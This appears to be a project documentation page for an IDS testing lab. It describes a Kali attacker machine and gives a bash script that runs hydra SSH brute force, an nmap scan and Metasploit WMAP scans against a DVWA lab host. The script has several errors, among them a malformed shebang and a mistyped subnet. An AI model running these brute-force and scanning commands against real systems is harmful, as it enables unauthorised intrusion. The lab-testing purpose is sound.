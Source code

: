 Attacker Machines
====
We chose to have two machines acting as attackers on our network, one external and a internal compromised Windows host.

Kali Outside Attacker Machine
----
We chose to use Kali Linux as our external attacker machine, Kali was chosen due to its existing robust catalouge of hacking tools.
We chose to use the following to simulate an attack: 

- NMAP (Scanning Ports)
- HYDRA (Brute Force Password)
- WMAP / Metasploit (Scanning DVWA)

I wrote a custom script to automate most of this process.
    
    .. code-block:: bash

        #/bin/bash
        root -i
        echo "======================================"
        cowsay Moooo!
        echo "Proj: IDS"
        echo "Purpose: Test IDS Rules and Logging with a variety of attacks"
        echo "#################################"
        hydra -L name -P a 10.180.110.250 ssh -t 4
        echo "DONE: Hydra on Admin ASDM Download to find privlaged users"
        echo "#############################"
        ssh user1@10.180.110.250 'exit'
        echo "DONE: Sample remote ssh via attempted brute force"
        echo "###########################"
        #cowsay Hackermode
        sudo nmap -v  110.180.110.0/24
        msfconsole 'load'
        echo "DONE: WEB APP EXPLOITS"
        #cowsay MOO!
        echo "==================================="
        eof

This script launches a hydra attack on the specified IP addresses, then runs a nmap scan and then opens the metasploit console

Then once we are in the MSF console we will run the following to scan our vuln filled web application for exploits.

    .. code-block:: bash

        msf6 > wmap
        wmap_sites -l
        wmmap_targets -t http://10.180.110.250/dvwa/index.php
        wmap_run -t
        wmap_run -e
        wmap_vulns -l
        

